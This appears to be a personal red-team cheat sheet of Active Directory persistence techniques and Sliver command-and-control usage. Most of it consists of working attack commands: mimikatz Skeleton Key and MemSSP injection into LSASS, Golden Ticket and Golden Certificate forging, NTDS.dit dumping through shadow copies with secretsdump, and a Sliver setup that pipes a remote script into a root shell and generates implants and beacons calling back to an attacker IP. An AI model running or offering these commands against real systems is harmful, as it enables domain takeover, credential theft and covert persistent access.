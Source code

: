 
## Domain Persistence

**Skeleton Key**
- Implants into LSASS and creates master password working for any AD account
- `mimikatz "privilege::debug" "misc::skeleton" "exit"` - adds `mimikatz` as a password to all users

**MemSSP**
- Injects a new Security Support Provider into LSASS
- `mimikatz "privilege::debug" "misc::memssp" "exit"`
  - Can follow this up with `misc::lock /process:explorer.exe` to LOG OUT active users!!
- After each authentication, password is stored in `C:\Windows\System32\mimilsa.log` or `C:\Windows\System32\kiwissp.log`

**Golden Certificate**
- Performed with:
  - `certipy ca -backup -ca '{certificate_name}' -username {user}@{domain} -hashes {hash}`
  - `certipy forge -ca-pfx {ca_private_key} -upn {user}@{domain} -subject 'CN={user},CN=Users,DC={domain},DC={tld}`

**Golden Ticket**
- Trying to get the KDC's secret key to create self-made tickets for any service on the system
- Requires full control over the DC or a being part of a Domain Admin group
- Dump `krbtgt` NTLM hash with mimikatz (unless we already have it)
	- `lsadump::lsa /patch`
- After grabbing the hash, from any domain user:
	- `kerberos::purge` to delete any existing tickets
	- `kerberos::golden /user:{domain_user} /domain:{domain} /sid:{domain_SID} /krbtgt:{krbtgt_NTLM_hash} /ptt`
		- The `domain_SID` can be gathered from whoami /user
- This will essentially give the domain user Domain Admin privileges
	- `PsExec.exe \\{domain_controller_dnshostname} powershell`
		- Can't use the IP of the DC, as that will resort to NTLM
		
**Shadow Copies**
- Volume Shadow Service is a Microsoft backup technology that allows creation of snapshots
- As a domain admin, we can create a shadow copy and extract the NTDS.dit database file
- Installed from [here](https://www.microsoft.com/en-us/download/details.aspx?id=23490)
- Run `vshadow.exe -nw -p C:`
- Then copy the Database from the shadow copy to the C: folder
	- `copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak`
- Then, save the SYSTEM hive with `reg.exe save hklm\system c:\system.bak`
- We can now access all NTLM hashes and Kerberos keys using `impacket-secretsdump`
	- `impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL`

## Sliver
- Can build from source with `sudo apt install golang-go`, `curl https://sliver.sh/install | sudo bash`, and `cd sliver && make`
- To make sure we don't kill the mf server, let's operate from a client
  - Start up tmux and run `sliver-server`
  - On the server: `new-operator --name {op_name} --lhost localhost` and `multiplayer` to enable clients
  - On the client, outside of tmux: `sliver-client import {config_file}` and `sliver-client` to join
- `wg` can be used to start listening for incoming sessions on a sneaky wireguard udp (use mtls otherwise if we dont get a callback)
  - **IMPORTANT!!** `evil-winrm` implants and beacons (and sometimes maybe `wmi-exec`?) will DIE a HORRIBLE DEATH, use another method to run the implant/beacon
- Then, use `generate` to create implants or beacons
  - `generate --wg {our_IP} --os linux` for an implant
  - `generate beacon --wg 192.168.0.102 -j {jitter} -S {wait_seconds} --os linux` 
  - Windows: `generate --mtls 192.168.0.102 --os windows` 
  - If we need to pivot, use `--tcp-pivot {IP}` and then we can see our pivots with `pivots tcp`
- `sessions` to show active sessions